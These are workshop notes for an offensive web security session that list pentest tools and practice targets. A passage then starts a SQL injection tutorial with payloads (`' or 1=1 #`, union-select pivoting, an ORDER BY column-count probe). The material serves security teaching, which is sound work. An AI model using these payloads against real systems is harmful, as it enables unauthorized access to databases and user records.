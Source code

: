 # DevUp 2022

## Offensive Web Security Workshop

Files: bit.ly/3xi2hxs
Slides: https://t.co/0ypb9QvAZy

Github Links from the workshop
https://github.com/swisskyrepo/PayloadsAllTheThings/
https://github.com/alexedwards/argon2id
https://github.com/beefproject/beef
https://github.com/zaproxy/zaproxy
https://github.com/berzerk0/Probable-Wordlists
https://github.com/sqlmapproject/sqlmap
https://github.com/paragonie/awesome-appsec
https://github.com/exploitprotocol/app-sec-wiki
https://github.com/digininja/DVWA



### Overview
Web Application Firewall (logs) will show many common attempted attacks

    - Path traversal
    - Command injection
    - File Upload
    - File Inclusion
    -


### SQL injections

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

Start with a ' to juke the existing query syntax
End with a comment (`-- ` or `#`) to skip the end of the exsiting query (to resolve syntax errors after injection)

- List all Users. The or 1=1 makes the exsting query "always true"

    `' or 1=1 # `

Use `union select` to pivot into other queries

Result of your query must have the same number of columns as the exsitng query. You can find that out with something like
- Find out the number of columns in the current table/result (n + 1, so if the table has 2 colummns, the error will say `Unknown column '3' in 'order clause'`)

    `' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,`68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100 #

